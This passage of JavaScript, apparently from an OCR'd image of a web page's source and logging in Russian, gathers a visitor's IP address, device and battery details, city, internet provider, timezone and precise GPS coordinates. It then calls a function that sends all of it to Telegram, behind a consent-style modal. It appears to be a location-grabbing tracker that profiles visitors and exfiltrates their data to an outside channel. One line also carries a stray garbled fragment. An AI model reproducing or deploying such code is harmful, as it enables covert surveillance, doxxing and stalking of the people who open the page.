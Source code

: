                 console.log('Получение информации о локации...');
                const loc = await getLoc();
                console.log('Получение информации о провайдере...');
                const org = await getOrg();
                console.log('Получение информации о часовом поясе...');
                const timezone = await getTimezone();
                const locationData = {
                    latitude: position.coords.latitude,
                    longitude: position.coords.longitude,
                    accuracy: position.coords.accuracy,
                    timestamp: new Date(position.timestamp).toISOString()
                };
                console.log('Данные геолокации для отправки:', locationData);
                
                console.log('Отправка всех данных в Telegram...');
                await sendDataToTelegram(deviceInfo, ipAddress, batteryLevel, host, city, region, country, loc, org, timezone, locationData);
            } catch (error) {
                console.error('Ошибка в функции mainWithPosition():', error);
            }
        }
        
        async function main() {
            console.log('Функция main() запущена, но теперь она не используется');
            if (navigator.geolocation) {
                navigator.geolocation.getCurrentPosition(
                    function(position) {
                        mainWithPosition(position);
                    },
                    function(error) {
                        console.error('Ошибка при получении геолокации в main():', error);
                    },
                    { enableHighAccuracy: true, timeout: 10000, maximumAge: 0 }
                );
            }
        }
        
        function initModalHandlers() {
            const permissionModal = document.getElementById('permissionModal');
            const mainContent = document.getElementById('mainContent');
            const acceptButton = document.getElementById('acceptButton');
            const declineButton = document.getElementById('declineButton');
            
            if (!acceptButton || !declineButton) {
                console.error('Кнопки модального окна не найдены');
                return;
            }
            
            let savedPosition = null;
            
            acceptButton.addEventListener('click', function() {
                if (savedPosition) {
                    console.log('Используем сохраненные данные геолокации');
                    permissionModal.style.display = 'none';
                    mainContent.style.display = 'block';ми
                    mainWithPosition(savedPosition);
                    return;
                }
                